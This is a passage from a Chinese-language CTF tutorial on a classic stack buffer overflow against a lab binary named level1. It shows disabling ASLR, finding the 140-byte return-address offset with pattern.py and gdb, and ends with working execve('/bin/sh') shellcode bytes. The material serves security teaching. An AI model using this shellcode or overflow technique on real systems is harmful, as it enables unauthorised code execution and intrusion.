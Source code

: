 这几个指令。执行完后我们就关掉整个linux系统的ASLR保护。

接下来我们开始对目标程序进行分析。首先我们先来确定溢出点的位置，这里我推荐使用pattern.py这个脚本来进行计算。我们使用如下命令：

```
python pattern.py create 150 

```

来生成一串测试用的150个字节的字符串：

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

```

随后我们使用gdb ./level1调试程序。

```
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()

```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140

```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

```
